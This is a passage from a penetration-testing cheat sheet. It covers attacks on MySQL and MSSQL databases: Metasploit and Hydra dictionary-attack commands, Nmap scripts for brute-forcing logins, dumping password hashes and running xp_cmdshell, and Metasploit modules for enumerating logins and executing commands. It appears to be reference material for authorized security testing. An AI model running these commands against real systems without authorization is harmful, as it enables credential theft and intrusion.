 <a id="5.17"></a>
## MySQL Dictionary Attacks

```bash
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary > set RHOSTS [TARGET]
msf5 auxiliary > set PASS_FILE /path/to/passfiles
msf5 auxiliary > set USERNAME [USERNAME]
$ hydra -L {/path/to/usr|[USERNAME]} -P /path/to/passwords [TARGET] mysql
```

<a id="5.18"></a>
## MSSQL Nmap Scripts

| Script                 | Function                                                          | Args                             |
|----------------------- | ----------------------------------------------------------------- | -------------------------------- |
| ms-sql-info            | Get information about the MSSQL server.                           |                                  |
| ms-sql-ntlm-info       | Get information about the MSSQL server interaction with NTLM.     | mssql.instance                   |
| ms-sql-brute           | Bruteforce the login credentials.                                 | userdb, passdb, mssql.instance   |
| ms-sql-empty-passwords | Searches for accounts without passwords.                          |                                  |
| ms-sql-query           | Send a query. Recommended to use -oN                              | .username, .password, .query     | 
| ms-sql-dump-hashes     | Dump account password hashes.                                     | .username, .password             |
| ms-sql-xp-cmdshell     | Attempt to execute commands.                                      | username, password, .cmd       |

Interesting queries:

- SELECT * FROM master..syslogins 

<a id="5.19"></a>
## MSSQL Metasploit.

```bash
msf5 > use auxiliary/scanner/mssql/mssql_login
msf5 auxiliary > set RHOSTS [TARGET]
msf5 auxiliary > set USER_FILE /path/to/users
msf5 auxiliary > set PASS_FILE /path/to/passwords
msf5 > use auxiliary/admin/mssql/mssql_enum
msf5 auxiliary > set RHOSTS [TARGET]
msf5 > use auxiliary/admin/mssql/mssql_enum_sql_logins
msf5 auxiliary > set RHOSTS [TARGET]
msf5 > use auxiliary/admin/mssql/mssql_exec
msf5 auxiliary > set CMD [CMD]
msf5 > use auxiliary/admin/mssql/mssql_enum_domain_accounts
```
<a id="6"></a>
# Recon: Vulnerability Assessment. 

